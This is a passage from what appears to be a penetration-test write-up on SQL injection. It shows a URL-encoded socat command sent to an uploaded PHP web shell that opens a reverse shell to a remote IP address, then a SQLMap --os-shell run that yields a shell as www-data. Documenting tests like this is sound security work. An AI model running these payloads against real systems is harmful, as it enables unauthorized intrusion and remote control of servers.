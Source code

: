 Next, the encoded URL was appended to `/tmp/shell1.php` with the `cmd` parameter as the following. 

```bash
127.0.0.1/tmp/shell1.php?cmd=socat%20tcp-connect%3A192.168.45.180%3A1234exec%3Abash
 ```

 The tester gained an interactive reverse shell as demonstrated below.
![](/assets/sql/REV.gif)  
### Automating the Process SQLMap 
An interactive os-shell was also obtainable using SQLMap. SQLMap is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection vulnerabilities in web applications.

First, the tester intercepted the user input via Burp Suite.  

![](/assets/sql/intercept.png)  
Next, the tester saved the intercepted HTTP request to a file called `hack`
![](/assets/sql/hack.png)  
The tester ran the following SQLMap command and set the web language to PHP and target location to `/var/www/html/tmp`  
```bash
sqlmap -r hack --os-shell
```
As seen below, the tester gained an interactive shell as `www-data`  
